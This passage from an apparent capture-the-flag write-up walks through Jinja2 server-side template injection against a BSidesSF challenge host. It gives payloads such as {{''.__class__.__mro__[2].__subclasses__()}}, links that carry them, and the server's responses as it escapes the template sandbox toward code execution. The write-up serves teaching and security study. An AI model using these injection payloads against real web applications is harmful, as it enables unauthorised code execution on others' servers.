 ```html
[Errno 2] No such file or directory: u'<type 'int'>' 
```

Now that we have access to a `str`-type (or `int`-type) object's internals, our next task is to traverse up the inheritance hierarchy to reach the root object. That's where the `__mro__` hidden property comes in. Accessing this property reveals the inheritance hierarchy for the given instance. When we [inject `{{''.__class__.__mro__}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__%7D%7D), we see that the empty string is descended from a `basestring` class, which itself is descended from the root `object` class:

```html
[Errno 2] No such file or directory: u"(<type 'str'>, <type 'basestring'>, <type 'object'>)" 
```

Similarly, when we introspect on an integer by [injecting `{{1.__class__.__mro__}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B1.__class__.__mro__%7D%7D), we see the literal value `1` is an `int` object, which is descended from the root `object` class:

```html
[Errno 2] No such file or directory: u'(<type 'int'>, <type 'object'>)' 
```

> :bulb: The "MRO" in `__mro__` stands for Method Resolution Order. This was introduced in Python 2.3 to support Python's implementation of [multiple inheritance](https://en.wikipedia.org/wiki/Multiple_inheritance). The only reference to this in the official documentation is [a brief section discussing the difference between "new-style" versus "classic" classes](https://docs.python.org/2/reference/datamodel.html#new-style-and-classic-classes), but you can read [Python 2.3 Method Resolution Order](https://www.python.org/download/releases/2.3/mro/) to learn more.

That root `object` object is what we're after. It's the third element in the `str` object's `__mro__` tuple, and the second in the `int` object's. That means either `''.__class__.__mro__[2]` or `1.__class__.__mro__[1]` will give us access to it. [Injecting either the `int`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B1.__class__.__mro__[1]%7D%7D) or the [`str` introspection code](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__[2]%7D%7D) yields the same result:

```html
[Errno 2] No such file or directory: u'<type 'object'>' 
```

The root object is most certainly outside of the Jinja template engine, meaning we have successfully escaped Jinja's sandbox. From here, we can now traverse back down the inheritance hierarchy using the root object's `type` object's `__subclasses__()` special method. Like the `__mro__` property, this special method is hidden in ways that built-in functions like `dir()` explicitly omit. Nevertheless, we can see that it is in fact available to us by [injecting `{{''.__class__.__mro__[2].__subclasses__}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__[2].__subclasses__%7D%7D) (or [the equivalent `int`-type introspection code](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B1.__class__.__mro__[1].__subclasses__%7D%7D)):

```html
[Errno 2] No such file or directory: u"<built-in method __subclasses__ of type object at 0x905b80>" 
```

Methods are an object's functions. When we call this method by [injecting `{{''.__class__.__mro__[2].__subclasses__()}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__[2].__subclasses__%28%29%7D%7D) (and in some cases, we need to use the percent-encoded equivalent of the open parentheses `(`, which is `%28`, and the close parenthesis `)`, which is `%29`, to do so), we are rewarded with [a long list of available objects and classes](loot/http_zumbo-8ac445b1.ctf.bsidessf.net_%257B%257B''.__class__.__mro__[2].__subclasses__%2528%2529%257D%257D.html). Each item in this list represents some loaded Python code that we can execute by navigating through the maze of object references.
